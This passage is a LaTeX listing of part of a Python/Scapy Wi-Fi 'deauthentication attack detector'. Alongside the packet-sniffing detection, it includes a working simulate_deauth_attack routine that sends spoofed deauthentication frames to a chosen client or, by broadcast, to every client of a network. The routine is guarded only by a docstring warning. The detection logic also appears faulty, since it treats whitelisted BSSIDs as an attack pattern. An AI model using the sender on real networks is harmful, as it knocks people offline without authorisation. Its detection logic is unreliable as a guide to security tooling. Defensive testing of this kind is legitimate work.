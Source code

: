 \documentclass[12pt,a4paper]{report}
\begin{document}
\begin{lstlisting}[language=Python, caption=Deauthentication Attack Detector]
                self.detected_attacks.append(attack_info)
                self.log_attack(attack_info)
                
    def is_attack_pattern(self, src_mac, dst_mac, bssid):
        """Determine if deauth pattern indicates an attack"""
        # Check for common attack patterns
        patterns = [
            src_mac == dst_mac,  # Self-deauth (unusual)
            bssid in self.whitelist_bssids,  # Whitelisted networks
            dst_mac == "ff:ff:ff:ff:ff:ff"  # Broadcast deauth
        ]
        
        return any(patterns)
    
    def start_monitoring(self):
        """Start packet monitoring for deauth attacks"""
        if not self.start_monitor_mode():
            return False
            
        self.monitoring = True
        
        def packet_handler(packet):
            if self.monitoring:
                self.detect_deauth_packets(packet)
        
        # Start packet sniffing
        sniff(iface=self.interface, prn=packet_handler, store=0)
        
    def simulate_deauth_attack(self, target_bssid, target_client=None, count=10):
        """
        Simulate deauthentication attack for testing purposes
        WARNING: Use only in authorized testing environments
        """
        if not self.interface.endswith('mon'):
            logging.error("Monitor mode required for attack simulation")
            return False
        
        try:
            if target_client:
                # Targeted deauth against specific client
                packet = RadioTap() / Dot11(
                    addr1=target_client,
                    addr2=target_bssid,
                    addr3=target_bssid
                ) / Dot11Deauth(reason=7)
            else:
                # Broadcast deauth against all clients
                packet = RadioTap() / Dot11(
                    addr1="ff:ff:ff:ff:ff:ff",
                    addr2=target_bssid,
                    addr3=target_bssid
                ) / Dot11Deauth(reason=7)
            
            # Send deauth packets
            for i in range(count):
                sendp(packet, iface=self.interface, verbose=False)
                time.sleep(0.1)
                
            logging.info(f"Simulated {count} deauth packets against {target_bssid}")
            return True
            
        except Exception as e:
            logging.error(f"Deauth simulation failed: {e}")
            return False
\end{lstlisting}
\end{document}
